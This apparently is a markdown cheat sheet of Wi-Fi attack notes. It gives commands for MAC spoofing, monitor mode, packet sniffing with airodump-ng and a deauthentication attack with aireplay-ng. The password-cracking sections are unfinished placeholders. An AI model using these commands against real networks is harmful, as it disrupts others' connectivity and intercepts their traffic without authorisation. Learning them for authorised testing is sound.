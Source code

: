 # Network Hacking Main Page

- [Changing MAC Address](#mac)
- [WIFI Sniffing](#snif)
- [Deauth Attack](#deauth)
- [WIFI Password Craking](#wifipasscrack)
  - [WEP](#wep)
  - [WAP](#wap)
  - [WAP2](#wap2)

## Show available INTERFACE info
```bash
ifconfig
iwconfig
```

<a name="mac"/>

## Changing MAC adresse

**desc** : *Change MAC adresse*

MAC = Media Access Control

```bash
ifconfig <INTERFACE> down
ifconfig <INTERFACE> hw ether <MAC_ADDRESS> # hw for hardware
ifconfig <INTERFACE> up
```

<a name="snif"/>

## WIFI Sniffing

**desc** : *`aerodump-ng` is a packet sniffer program*
 - Must have a wifi key in wireless `monitor mode`
 - Use to capture packets within range
 - Display detailed info about networks
 - part of `aircrak-ng` suit

usage : `airodump-ng <INTERFACE>`

1. Must change wireless mode : Managed to Monitor
   ```bash
   # step 1
   ifconfig <INTERFACE> down
   # step 2
   airmon-ng check kill
   # step 3
   iwconfig <INTERFACE> mode monitor
   # step 4
   ifconfig <INTERFACE> up
   ```
2. Run `airodump-ng`

options :
- `--bssid <MAC_ADDRESS>` : Select MAC adresse to sniff
  - example
    - ```bash
      airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write save mon0`
      ```
- `--write <FILE_NAME>` : Save the sniffing to a file
  - Use [Wireshark]() to read the `.cap` file
- `--channel <CHANNEL_ID>`: Select channel 
- `--band` : Select frequency
  - "a" : use 5Gz only
  - "bg" : use 2.4Gz only
  - "n" : use both
  - "ac" : use lower than 6Gz
  -  example
     - ```bash
        airodump-ng --band abg mon0
        ```

Simple sniffing 2.4Gz
```bash
airodump-ng <INTERFACE>
```

<a name="deauth"/>

## Deauth Attack with `aireplay-ng`

usage : `aireplay-ng --deauth <#DEAUTH_PACKETS> -a <NETWORK_MAC> -c <TARGET_MAC> <INTERFACE>`

1. Run `aerodump-ng`
2. Run `aireplay-ng`

example : 
```bash
aireplay-ng --deauth 100000 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 mon0
```

<a name="wifipasscrack"/>

## WIFI password cracking

<a name="wep"/>

### WEP

TODO

<a name="wap"/>

### WAP

TODO

<a name="wap2"/>

### WAP2

TODO
